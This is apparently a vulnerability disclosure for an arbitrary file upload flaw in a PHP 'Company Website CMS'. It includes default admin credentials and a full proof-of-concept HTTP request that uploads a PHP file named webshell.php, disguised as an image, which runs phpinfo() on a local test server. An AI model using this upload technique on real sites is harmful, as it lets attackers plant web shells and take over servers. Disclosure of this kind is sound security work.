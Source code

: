 # The Company Website CMS developed by Torrahclef has an arbitrary file upload vulnerability
## vendors: [https://www.sourcecodester.com/php/11206/church-management-system.html](https://www.sourcecodester.com/php/15517/company-website-cms-php.html)

## Login account: admin/admin (Super Admin account)

## Vulnerability url: http://127.0.0.1/vogue/dashboard/createservice

## Loophole location: /dashboard/add-service.php has an arbitrary file upload vulnerability

## process:
1、Use the admin and admin accounts to log in to the background system
![image](https://user-images.githubusercontent.com/88701694/196492985-16a1b8b2-5eb2-48f7-a216-edf0823e6409.png)
2、The construct POC successfully uploaded the php file
poc：
```
POST /vogue/dashboard/createservice HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------120472908621194155141824599930
Content-Length: 777
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createservice
Cookie: PHPSESSID=e2s3ah89nov4updrl625trke71
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_title"

2222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_desc"

22222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_detail"

222222222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="ufile"; filename="webshell.php"
Content-Type: image/png

<?php phpinfo(); ?>
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="save"


-----------------------------120472908621194155141824599930--
```

![image](https://user-images.githubusercontent.com/88701694/196493351-c294f1f1-3fec-4a0f-8145-d440cd95967f.png)
3、Come to the front page, you can see the content you created under "services" at the bottom of the page, click in, and access the picture. Executing the script successfully
![image](https://user-images.githubusercontent.com/88701694/196496197-156415f8-ec28-47c0-a1d0-7d5893d74443.png)
![image](https://user-images.githubusercontent.com/88701694/196496227-58a609ac-f364-4a5c-8cd5-f680bfcb1561.png)

